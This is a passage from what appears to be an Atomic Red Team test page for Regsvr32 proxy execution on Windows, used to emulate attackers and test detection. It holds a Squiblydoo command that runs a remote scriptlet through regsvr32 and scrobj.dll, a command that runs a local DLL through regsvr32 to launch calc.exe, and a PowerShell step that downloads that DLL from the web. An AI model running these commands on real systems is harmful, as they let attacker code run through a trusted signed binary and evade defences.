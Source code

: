 
#### Attack Commands: Run with `command_prompt`! 


```cmd
#{regsvr32path}\#{regsvr32name} /s /u /i:#{url} scrobj.dll
```






<br/>
<br/>

## Atomic Test #3 - Regsvr32 local DLL execution
Regsvr32.exe is a command-line program used to register and unregister OLE controls. Upon execution, calc.exe will be launched.

**Supported Platforms:** Windows


**auto_generated_guid:** 08ffca73-9a3d-471a-aeb0-68b4aa3ab37b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_name | Name of DLL to Execute, DLL Should export DllRegisterServer | path | PathToAtomicsFolder&#92;T1218.010&#92;bin&#92;AllTheThingsx86.dll|
| regsvr32path | Default location of Regsvr32.exe | path | C:&#92;Windows&#92;system32|
| regsvr32name | Default name of Regsvr32.exe | string | regsvr32.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
IF "%PROCESSOR_ARCHITECTURE%"=="AMD64" (C:\Windows\syswow64\regsvr32.exe /s #{dll_name}) ELSE ( #{regsvr32path}\#{regsvr32name} /s #{dll_name} )
```




#### Dependencies:  Run with `powershell`!
##### Description: AllTheThingsx86.dll must exist on disk at specified location (#{dll_name})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_name}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{dll_name}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1218.010/bin/AllTheThingsx86.dll" -OutFile "#{dll_name}"
```
